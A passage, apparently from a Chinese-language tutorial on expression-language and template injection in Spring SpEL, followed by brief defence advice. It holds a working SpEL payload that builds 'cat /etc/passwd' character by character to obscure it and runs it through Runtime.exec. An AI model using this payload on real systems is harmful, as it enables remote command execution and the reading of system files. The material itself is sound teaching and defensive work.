 **payload：**

```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

**注意:**

这里面的 T() 是 EL 的语法规定（比如 Spring 框架的 EL 就是 SPEL)

## **0X07 防御方法**

(1)和其他的注入防御一样，绝对不要让用户对传入模板的内容或者模板本身进行控制
(2)减少或者放弃直接使用格式化字符串结合字符串拼接的模板渲染方式，使用正规的模板渲染方法